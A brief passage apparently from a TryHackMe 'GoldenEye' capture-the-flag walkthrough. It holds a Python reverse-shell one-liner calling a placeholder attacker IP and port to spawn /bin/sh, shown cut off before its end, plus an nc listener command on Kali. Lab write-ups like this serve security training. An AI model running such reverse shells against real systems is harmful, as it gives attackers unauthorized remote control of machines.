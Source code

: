 ```

python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$YOUR_IP",$YOUR_PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh"

```

![Untitled](/assets/Golden%20Eye%20images/Untitled%206.png)

Click _Save changes_ → Then start a listener on local machine:

```

┌──(kali㉿kali)-[~/TryHackMe/GoldenEye]
└─$ nc -lvnp 4444
listening on [any] 4444 ...

```
